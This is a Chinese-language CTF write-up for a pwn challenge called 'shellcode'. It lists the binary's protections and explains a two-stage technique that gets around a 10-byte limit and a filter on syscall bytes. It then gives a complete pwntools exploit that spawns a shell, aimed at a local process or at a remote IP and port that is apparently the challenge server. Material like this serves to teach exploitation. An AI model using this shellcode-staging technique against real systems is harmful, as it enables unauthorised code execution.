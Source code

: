 # shellcode

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |

## 解题思路

程序允许输入10字节的shellcode，并且过滤了`syscall(0f 05)`。由于有限制，shellcode不能直接写`read`，
字节数会超。由于`call`会在栈上留下一个返回地址，相当于间接拿到了pieBase。

![stack](assets/stack.png)

回看`main`函数，其中在`read(0, buf, 10)`时，程序依次设置了rdx, rsi和rdi，
因此我们可以设置好rdx，然后跳回去让程序自己设置rsi和rdi，实现大量字符串写入。
由于`memmem`比较时只比较前10个字符，而`execve`的shellcode的`syscall`在10字节之外，
因此都不需要patch就能拿shell。

shellcode开头还有一个push pop，是因为本地测试时好像偶尔会吞2个字节。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './shellcode'

def payload(lo: int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh, 'b *$rebase(0x1424)')
    else:
        sh = remote('139.155.126.78', 39581)

    # set rdx and return to 0x13e2
    sh.sendafter(b'input', asm('sub qword ptr [rsp], 68; push rcx; pop rdx; ret;'))
    sleep(0.5)
    code = '''
    push rdx
    pop rdx
    mov rbx, 0x68732f6e69622f
    push rbx
    push rsp
    pop rdi
    xor esi, esi
    xor edx, edx
    push 0x3b
    pop rax
    syscall
    '''
    shc = asm(code)
    sh.send(shc)

    sh.clean()
    sh.interactive()
```

![flag](assets/shellcode.png)
